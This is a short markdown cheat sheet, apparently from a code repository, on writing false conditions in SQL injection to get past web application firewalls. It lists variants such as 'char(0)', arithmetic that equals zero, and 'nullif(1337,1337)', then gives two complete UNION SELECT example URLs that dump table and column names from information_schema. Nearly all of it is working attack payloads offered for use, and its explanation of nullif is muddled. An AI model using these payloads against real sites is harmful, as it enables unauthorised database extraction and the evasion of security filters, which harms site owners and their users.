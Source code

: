 # The Alternative WAY of using And 0 in SQL Injection

## The traditional way of using **And 0**  
```
And 1=0
And false
And 0
And 50=60 
Any number that are not the same will equal to (0,false,null)
```

## The alternative way of using **And 0** for WAF Bypass purpose

### Using char() for 0, null, false values
```
And char(0)
And char(false)
And char(null)
```

### Any Mathematical/Arithmetic or Logical Problem's that equal to 0
```
And 1*0
And 1-1
And 0/1
```

### Using and nuliff(1336,1337)
If one arguments is different nullif(1336,1337) it return the first argument and it will consider as true.So no need to use this.But sometimes it works. Since both arguments are equal it return as null value or it's considered as false,0,null and it will valid as Bypass Method in SQL.

```
And nullif(1337,1337)
```

## Example:

Using **char(0)**
```
http://website.com/index.php?id=1 and char(0) Union Select '1 and char(0) union select 1,2,group_concat(0x3c6c693e,table_name,0x203a3a20,column_name),4,5,6 from information_schema.columns where table_schema=database()',2,3,4,5,6--+-
```

Using **nullif(1337,1337)
```
http://website.com/index.php?id=1 and nullif(1337,1337) Union Select '1 and nullif(1337,1337) union select 1,2,group_concat(0x3c6c693e,table_name,0x203a3a20,column_name),4,5,6 from information_schema.columns where table_schema=database()',2,3,4,5,6--+-
```
